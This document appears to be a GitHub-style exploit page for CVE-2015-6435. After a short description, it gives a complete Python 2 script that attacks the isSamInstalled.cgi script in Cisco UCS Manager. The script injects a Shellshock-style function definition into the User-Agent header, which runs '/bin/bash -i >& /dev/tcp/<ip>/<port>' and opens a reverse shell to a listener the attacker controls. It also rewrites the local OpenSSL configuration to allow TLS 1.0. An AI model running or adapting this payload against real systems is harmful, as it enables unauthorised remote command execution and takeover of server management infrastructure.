 INFO
----

Cisco UCS Manager version 2.2(1d) remote command execution exploit. An unspecified CGI script in Cisco FX-OS before 1.1.2 on Firepower 9000 devices and Cisco Unified Computing System (UCS) Manager before 2.2(4b), 2.2(5) before 2.2(5a), and 3.0 before 3.0(2e) allows remote attackers to execute arbitrary shell commands via a crafted HTTP request, aka Bug ID CSCur90888.

EXP
---

    import sys, ssl, os, time
    import requests
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    #
    # Exploit Title         : Cisco UCS Manager - 2.2(1d) - Remote Command Execution
    # Description           : An unspecified CGI script in Cisco FX-OS before 1.1.2 on Firepower 9000 devices and Cisco Unified Computing System (UCS) Manager before 2.2(4b), 2.2(5) before 2.2(5a), and 3.0 before 3.0(2e) allows remote attackers to execute arbitrary shell commands via a crafted HTTP request, aka Bug ID CSCur90888.
    # Date                  : 1/15/2021
    # Exploit Author        : liquidsky (J.McPeters)
    # Vulnerable Software   : Cisco UCS Manager - 2.2(1d) -> [According to the vendor (cisco), this is known to impact versions prior to 3.0(2e).]
    # Vendor Homepage       : https://www.cisco.com/c/en/us/products/servers-unified-computing/ucs-manager/index.html
    # Version               : 2.2(1d), 2.2(3c)A
    # Cisco Reference       : https://quickview.cloudapps.cisco.com/quickview/bug/CSCur90888
    # Tested On             : Cisco UCS Manager - 2.2(1d) (Exploit ran with Debian 5.6.7-1kali1 (Kali 2020.1 x64))
    # Author Site           : https://github.com/fuzzlove/Cisco-UCS-Manager-2.2-1d-Remote-Command-Execution
    # Demo                  : https://youtu.be/bZAcJrwPEb0
    # CVE                   : CVE-2015-6435 | https://nvd.nist.gov/vuln/detail/CVE-2015-6435
    # Special Notes         : This application by default uses outdated TLS 1.0 for communication, so thats why there is a quickfix/temporary patch to 1.0 in openssl utilizing 'sed' (that gets changes back after exploitation).
    #
    # Greetz: wetw0rk, Fr13ndz, O.G.Xx25, MS, SS, JK, the S3 family, and last but NOT least droppunx ^_~
    #

    print "+-------------------------------------------------------------+"
    print
    print "-       Cisco Unified Computing System Manager CGI RCE "
    print
    print "          Cisco UCS Manager - 2.2(1d) - CVE-2015-6435"
    print
    print "-   PoC by: LiquidSky - 1/15/21  |  CISCO-BUG-ID:  CSCur90888   "
    print
    print "+-------------------------------------------------------------+"

    try:

      target    = sys.argv[1]
      shellip    = sys.argv[2]
      shellport  = sys.argv[3]

    except IndexError:

            print
      print "- Usage: %s <vuln-site> <listener-ip> <listener-port>" % sys.argv[0]
      print "- Example: %s https://ciscoucsmgr 192.168.1.123 443" % sys.argv[0]
            print
      sys.exit()

    def ch3x_w00t():
         if os.geteuid()==0:
             print "[*] Running exploit as root."
         else:
             print "[!] You are not root, be sure you can change /etc/ssl/openssl.cnf"
             print "[x] Most likely going to see an error..."
             time.sleep(5)

    # Performs backup of openssl.cnf just in case and performs checks of existing vulnerable pages...
    def cisco_vuln():
         ch3x_w00t()
         print "[x] Backing up /etc/ssl/openssl.cnf to /etc/ssl/openssl.bak (just in case)"
         os.system("cp /etc/ssl/openssl.cnf /etc/ssl/openssl.bak")
         os.system("sed -i 's/MinProtocol = TLSv1.2/MinProtocol = TLSv1.0/' /etc/ssl/openssl.cnf")
         print "[*] Checking vulnerable URL "
         headers1 = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
         cisco_url = "" + target + "/ucsm/isSamInstalled.cgi"
    #Checking page
         check = requests.get(cisco_url, headers=headers1, verify=False)
    #Grabbing response
         res = check.text
         if "true" in res:
             return True
         return False

    # Safety check - make sure the user is okay with the TLS1.0 temp fix
    # Shout out to Dean ^^ for keeping me polite...

    def exploit_question():
          print "[x] Warning the service by default uses TLS1.0 so . . ."
          print
          print "[?] This exploit temporarily patches '/etc/ssl/openssl.cnf' to use TLS1.0 using 'sed' and then changes back to TLS1.2"
          print
          print "[!] A backup is placed in /etc/ssl/openssl.bak just to be safe..."
          print
          question = raw_input('[!] Do you wish to continue, "yes" or "no" ?')
          if question == 'yes':
              print
              print "[!] Great attempting exploitation checks: " + target + '!'
              cisco_vuln()
          else:
              print
              print "[x] Stay safe m8 ;) - Read the source, its safe . . "
              print
              sys.exit()

    exploit_question()

    def cisco_response():
         headers1 = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
         cisco_url = "" + target + "/ucsm/isSamInstalled.cgi"
         request = requests.get(cisco_url, headers=headers1, verify=False)
         if request.status_code == 200:
             print "[x] Page seems to exist -- Possibly vulnerable?"
         else:
             print "[!] Page does not exist - Not vulnerable"
             print "[x] Switching back to TLS v1.2 - backup file should be in /etc/ssl/openssl.bak (just in case)"
             os.system("sed -i 's/MinProtocol = TLSv1.0/MinProtocol = TLSv1.2/' /etc/ssl/openssl.cnf")
             sys.exit()

    def cisco_exploit():
         cisco_url = "" + target + "/ucsm/isSamInstalled.cgi"
         headers = {"User-Agent": "() { ignored;};/bin/bash -i >& /dev/tcp/" + shellip + "/" + shellport + " 0>&1", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

         print "[x] Sending Shell to IP: " + shellip + " Port: " + shellport + ""
         print "[?] If this works you will see the exploit hang"

         requests.get(cisco_url, headers=headers, verify=False)
         print "[!] Shell Sent"

    cisco_exploit()

    def main():
         if cisco_vuln():
             print ""
             print "[+] Perhaps success?"
             print ""
             print "  ^_~  got shellz?   - [ liquidsky | 2021 ]"
             print
             print "[x] Switching back to TLS v1.2 - backup file should be in /etc/ssl/openssl.bak (just in case)"
             os.system("sed -i 's/MinProtocol = TLSv1.0/MinProtocol = TLSv1.2/' /etc/ssl/openssl.cnf")
         else:
             print "[-] failure!"
             print "[x] Switching back to TLS v1.2 - backup file should be in /etc/ssl/openssl.bak (just in case)"
             os.system("sed -i 's/MinProtocol = TLSv1.0/MinProtocol = TLSv1.2/' /etc/ssl/openssl.cnf")

    if __name__ == "__main__":
         main()